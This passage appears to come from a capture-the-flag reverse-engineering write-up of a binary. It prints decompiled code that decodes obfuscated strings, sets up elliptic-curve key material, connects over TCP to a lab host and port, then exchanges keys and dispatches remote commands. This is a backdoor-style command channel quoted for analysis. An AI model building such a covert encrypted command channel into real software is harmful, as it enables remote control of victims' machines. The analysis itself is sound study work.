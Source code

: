 As you can see there are a lot of interesting strings. Before `main()`, program executes a ctor
to initialize an Elliptic Curve `(q, a, b)` and a point `G = (x, y)`:
```c
void u_init_bigints() {
  /* ... */
  bigint_q = RhpNewFast(&bigint_obj);
  v1 = u_decr_string(&off_7FF71D32FC68);
  // c90102faa48f18b5eac1f76bb40a1b9fb0d841712bbe3e5576a7a56976c2baeca47809765283aa078583e1e65172a3fd
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_q, v1, 16LL);
  bigint_a = RhpNewFast(&bigint_obj);
  v3 = u_decr_string(&off_7FF71D32FA90);
  // a079db08ea2470350c182487b50f7707dd46a58a1d160ff79297dcc9bfad6cfc96a81c4a97564118a40331fe0fc1327f
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_a, v3, 16LL);
  bigint_b = RhpNewFast(&bigint_obj);
  v5 = u_decr_string(&off_7FF71D32EEC8);
  // 9f939c02a7bd7fc263a4cce416f4c575f28d0c1315c4f0c282fca6709a5f9f7f9c251c9eede9eb1baa31602167fa5380
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_b, v5, 16LL);
  bigint_x = RhpNewFast(&bigint_obj);
  v7 = u_decr_string(&off_7FF71D32EC18);
  // 087b5fe3ae6dcfb0e074b40f6208c8f6de4f4f0679d6933796d3b9bd659704fb85452f041fff14cf0e9aa7e45544f9d8
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_x, v7, 16LL);
  bigint_y = RhpNewFast(&bigint_obj);
  v9 = u_decr_string(&off_7FF71D32E860);
  // 127425c1d330ed537663e87459eaa1b1b53edfe305f6a79b184b3180033aab190eb9aa003e02e9dbf6d593c5e3b08182
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_y, v9, 16LL);
  EC = RhpNewFast(&qword_7FF71D34B618);
  // FpCurve(BigInteger q, BigInteger a, BigInteger b, BigInteger order, BigInteger cofactor)
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_FpCurve___ctor_1(EC, bigint_q, bigint_a, bigint_b, 0LL, 0LL, 0);
  /* ... */
  v13 = RhpNewFast(&unk_7FF71D34B188);
  Prng = BouncyCastle_Cryptography_Org_BouncyCastle_Security_SecureRandom__CreatePrng(&glo_prng, 1LL);// autoSeed = 1
  S_P_CoreLib_System_Random___ctor_0(v13, 0LL);
  /* ... */
}
```

Now we to to the real `main()` of the program:
```c
void __stdcall fullspeed_real_main() { // main ~> managed_main ~> fullspeed_real_main
  /* ... */
  v14 = 0LL;
  v15[0] = 0LL;
  if ( qword_7FF71D348FC0[-1] )
    sub_7FF71D1F1ED4();                         // call ctors (init bigints)
  v0 = qword_7FF71D428A68;
  v1 = u_decr_string(&glo_ip_and_port);         // 192.168.56.103;31337
  v2 = u_decr_string(&glo_semicolon);           // ;
  /* ... */
  System_Net_Sockets_System_Net_Sockets_TcpClient___ctor_2(v12, v5, v11);// patch IP
  RhpAssignRefAVLocation((v0 + 32), v12);
  Stream = System_Net_Sockets_System_Net_Sockets_TcpClient__GetStream();
  RhpAssignRefAVLocation((v0 + 40), Stream);
  u_EXHANGE_KEYS();
  u_DISPATCH_COMMANDS();
}
```

